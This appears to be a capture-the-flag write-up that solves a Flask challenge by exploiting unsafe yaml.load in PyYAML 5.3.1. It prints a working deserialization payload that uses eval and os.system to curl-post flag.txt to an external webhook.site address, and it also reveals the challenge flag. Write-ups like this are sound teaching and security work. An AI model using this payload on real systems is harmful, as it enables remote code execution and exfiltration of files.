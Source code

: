 ## Espace 0

The hardest challenge of the web category, but was actually solved before Login Part 0 since my brain was dead

> You've used espace2, but what about espace0?
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4210/

As before the source, `main.py` was given

```python
from flask import Flask, request, render_template, Response
import yaml

app = Flask(__name__)
assert yaml.__version__ == "5.3.1"

@app.route("/")
def index():
    return render_template("./index.html")
    
@app.route("/", methods=["POST"])
def welcome():
    student_data = request.form.get("student_data")
    if not student_data:
        return Response("Please specify some data in YAML format", mimetype='text/plain')
    student_data = yaml.load(student_data)
    required_fields = ["id","name","class"]
    if type(student_data) != dict or "student" not in student_data or any(x not in student_data["student"] for x in required_fields):
        return Response("Malformed data. Please try again.", mimetype='text/plain')
    student = student_data["student"]
    return f"<h1>Welcome, {student['name']} ({student['id']})</h1> <br>Your class is <b>{student['class']}</b>"
```

There are no obvious vulunerabilities to this file.

But the `assert yaml.__version__ == "5.3.1"` part is quite suspicious.

A quite google search with keywords `pyyaml 5.3.1 vulnerabilities` leads us to `https://security.snyk.io/vuln/SNYK-PYTHON-PYYAML-590151`, a 9.8 scored RCE.

Conviniently a `uiuctf` writeup was included that explained how the exploit worked. https://hackmd.io/@harrier/uiuctf20

Apparently it was a zero day vulunrability used in a CTF, what a chad move. We can simply take their payload and use it here as google is allowed in CTFs.

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'PAYLOAD_HERE' ]]]`

### Sending the payload

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("os").system("curl -X POST --data-binary @flag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")' ]]]`

![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221164628024.png)

And after checking webhook.site for the recieved curl request

```
flag{yet_another_mal-coded_library}
```

Flag obtained




